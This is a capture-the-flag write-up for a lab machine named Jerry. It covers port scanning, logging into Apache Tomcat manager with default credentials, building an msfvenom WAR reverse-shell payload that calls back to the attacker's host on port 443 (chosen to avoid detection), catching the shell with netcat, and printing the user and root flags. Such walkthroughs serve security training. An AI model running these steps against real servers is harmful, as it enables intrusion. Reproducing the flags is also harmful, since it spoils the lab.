# Jerry
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's scan all open ports and services for the host given using nmap.

```
sudo nmap -p- -sVC -O 10.10.10.95
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210326505-71899f44-f1cb-4316-9b13-3f3cb4b1a13d.png)


2. Based from the output, there's only 1 port open, so we know what we're going to be attacking (port 8080).
3. Since the service is `HTTP` hence there must be a web server running.
4. Based on the service version, we can conclude that it's java web application.

> THE WEB APP

![image](https://user-images.githubusercontent.com/70703371/210327304-ab166588-acdd-481e-9379-5775b44e8a27.png)


5. When i clicked one of these buttons, i prompted to input username and password.

![image](https://user-images.githubusercontent.com/70703371/210327569-c0061bb7-900a-485d-ae35-307f9b8b12f5.png)


![image](https://user-images.githubusercontent.com/70703371/210327593-be4d82ce-41df-4519-811d-f589a2d7c290.png)


6. Our interest here is the `Manager app` so i did a small outsource about **APACHE TOMCAT MANAGER DEFAULT CREDS**.

> RESULT - GOT A GITHUB REPOSITORY

```
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
```

![image](https://user-images.githubusercontent.com/70703371/210327887-8dc0da21-04ae-42ba-aa5c-683bfd55ce40.png)


7. Since the default creds not too many, so i bruteforce it every of it.
8. Logged in when i entered the username as `tomcat` and the pass as `s3cret`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210328200-0429966e-e8c3-483d-9f77-f3b7bb2f6807.png)


9. I think we can utilize this upload file feature.

![image](https://user-images.githubusercontent.com/70703371/210328421-87ebf759-3b0d-4b2d-9e39-02daa2f6520c.png)

> INFO

```
In software engineering, a WAR file (Web Application Resource or Web application ARchive) is a file used to distribute a collection of JAR-files, 
JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together 
constitute a web application. 
```

10. Hence we can upload a WAR file that contains a payload or malicious script/code that can do a reverse shell back to us when we navigate that file.
11. Let's use **msfvenom**.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f war > reverseShell.war
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210330677-4e2aef99-5ded-4ecf-b63e-3d843aaac091.png)


> NOTES - IMPORTANT WHEN START TO DO A LOT OF DIFFERENT ENTERPRISE ENVIRONMENTS

```
-f -> stands for format generator

Reason using port number 443:
The shells actually coming from the target, assume that the connection is going to be made outbound from the target's network, we want to make sure that the outbound connections are not having these super weird destination ports, because that would light up a security anti-virus, if there's an
outbound connection going on port 443 which is simply just https traffic, outbound internets are allowed all the time. Hence it would not trigger the security.
```

12. Let's upload the war file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210330838-134cee7e-d152-4ca1-8964-d26212bb7aa2.png)


![image](https://user-images.githubusercontent.com/70703371/210330933-74a1944f-7baf-4013-8c82-2e99b2c3656e.png)


13. When deployed it, it's not actually going to run the reverse shell immediately, we need to browse to it to trigger the actual payload inside and the actual payload stored inside a JSP file inside the war archive.
14. Now to execute our reverse shell, we need to be able to tell where our reverse shell is located at, we need the name of our JSP file which includes our payload inside of the war archive.
15. To identfiy the `.jsp` file simply run:

```
jar tf reverseShell.war
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210331663-3688f6b8-4fd6-4a28-a878-11cff2fdb4e4.png)


16. Now set the reverse shell to listening mode.

```
nc -lvnp 443
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210331989-dd453426-b09e-44bf-a424-a54c46047caa.png)


17. Now change the url to this:

```
http://10.10.10.95:8080/reverseShell/xkxgfypqtjsgeby.jsp
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210332972-337b06aa-d316-4de6-8b3d-188e907beea5.png)



![image](https://user-images.githubusercontent.com/70703371/210332940-718cb8c0-d4a0-49cf-a583-648d2bec5a3f.png)


18. Great we got the reverse shell back from the machine and now we have persistent access from the target.
19. Let's check our privilege.

> RESULT
![image](https://user-images.githubusercontent.com/70703371/210334054-eb054b0a-c321-45ee-85d3-680cb37b4a67.png)


20. Great we are root!
21. Now let's list all files and directories.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210334137-5db2ee35-ca6e-423c-ace3-af2c19c61f36.png)


22. Seems like there's nothing to be our interest here.
23. Let's go back 1 directory.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210334280-04caf0c3-d540-41e5-b5bb-ea3660eed648.png)


24. Let's jump to the **Users** directory.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210334346-eb5aaadd-19e0-4e1d-bfe2-9f3df76618fd.png)


25. Jump to **Administrator**.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210334418-2df3b394-7976-462a-b866-50d914834301.png)


26. Check what's inside **Contacts**.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210334513-21bc08cc-5d7e-4122-a1ee-2d7ad9bc8ee5.png)


27. Got nothing.
28. Now check **Desktop**.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210334606-e56d1c7a-23e4-496c-b58e-5c257810512b.png)


29. Nice! Jump to the **flags** directory.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210334675-1cb0c353-c512-4fbb-b13a-7a82b55a5faa.png)

![image](https://user-images.githubusercontent.com/70703371/210335029-7313dc61-76c0-489e-b63a-12034e0acd8f.png)


30. Great, we owned the system and the user!

## FLAGS

```
user = 7004dbcef0f854e0fb401875f26ebd00
root = 04a8b36e1545a455393d067e772fe90e
```


